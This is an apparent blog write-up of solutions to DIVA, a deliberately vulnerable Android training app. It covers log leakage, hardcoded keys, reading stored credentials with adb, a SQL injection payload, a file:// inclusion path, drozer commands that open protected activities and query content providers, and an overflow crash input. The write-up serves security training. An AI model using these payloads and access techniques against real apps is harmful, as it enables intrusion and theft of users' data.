```yaml
---
published: false
---
```

## Diva Android Solutions





![png]({{site.baseurl}}/pics/main.png)


## Insecure Logging

![png]({{site.baseurl}}/pics/insecure.png)

	Develophers use logs to debug their applications. Leaking information in logs is general situation and can be found any system. In android, we can read logs from adb logcat command. Then when we look logs we see our application leakes our credit card number in logs.
 
 
```bash
adb logcat >  out.txt
cat out.txt | grep diva
```

![png]({{site.baseurl}}/pics/insecure-2.png)

![png]({{site.baseurl}}/pics/insecure1code.png)
   When we look at the code the problematic part is that
   ```java 
	Log.e("diva-log", "Error while processing transaction with credit card: " + localEditText.getText().toString());
```
which stores credit card number.


## Hardcoding Issues 1
.hardcodemain
	Sometimes develophers uses critical information as hard-coded. In these example hardcoded part in apk files.
	To get apk  from our phone we use adb pull.
	Then we use bytecodeviewer to open it. When we goto  related class HardcodeActivity we see blow result. Vendor secret leaked. 

	.hardcode

	adb pull apk
	bytecodeviever
	vendorsecretkey


## Insecure Data Storage

	.insecure1main

	These time credentials stored in shared preferences which gives oppurtunity to store small information in xml files. It is stored in shared_prefs directory.

	adb shell
	cd data/data/jakhar.aseem.diva/
	ls
	cd shared_prefs/
	cat jakhar.aseem.diva_preferences.xml




	/data/data/jakhar.aseem.diva/shared_prefs
	jakhar.aseem.diva_preferences.xml
	<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
	<map>
	    <string name="user">adadd</string>
	    <string name="password">sdsdsdsd</string>
	</map>




## Insecure Data Storage 2

	Common method to store data is using databases. In these example data  stored in sqlite databses plaintext.
	To check database we download  by adb pull and open by sqlitebrowser.

```bash
	adb pull data/data/jakhar.aseem.diva/databases/ids2

	sqlitebrowser ids2
```


## Insecure Data Storage 3

	In these example, develpher tore data in tmp file which starts with uinfo.


```bash
	adb pull /data/data/jakhar.aseem.diva/uinfo-493535252tmp
	cat uinfo-493535252tmp
```

## Insecure Data Storage 4

	These time data stored in different directory. To Read file we go location of $EXTERNAL_STORAGE variable.
	```bash
	echo $EXTERNAL_STORAGE
	.uinfo.txt
```


## Input Validation Issues 1
	
	When working with databases valitating input so critical. I fit not done properly or not used properly sql injecttion vulnerability occurs. Below input returns  alll results n table.
```bash
	' or 1=1 --
```


## Input Validation Issues 2

	Also file  inclusion vulnerabilities can be found  in mobile application. In example we can read local files by fiving them.
```bash
	file:///data/data/jakhar.aseem.diva/lib/libdivajni.so
```
## Access Control Issues
	Activities opened by intents and sometimes these activities are not secured. So they can can be called directly.

	To do these we use drozer .To download and setup it you can use following link
	https://github.com/mwrlabs/drozer


```bash	
	activity intent 
	run app.activity.info  -a jakhar.aseem.diva
	jakhar.aseem.diva.APICredsActivity
	run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICredsActivity
```

## Access Control Issues 2

	TVEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2




## Access Control Issues 3
	Like activities, broviders can leake information. 
```bash	
	run app.provider.info -a jakhar.aseem.diva
	run scanner.provider.finduris -a jakhar.aseem.diva
	run scanner.provider.sqltables -a content://jakhar.aseem.diva.provider.notesprovider/notes/
	run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes/
```


## Hardcoding Issues 2

	These time critical insormation is in libraries.

```bash	
adb pull lib/lib.so
strings
olsdfgad;lh
```


## Input Validation Issues 3

	Example includes overflow vulnerability.
	To crach app we try each time more character.
	When reached maximum app will crash.


```bash	pppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppp
```




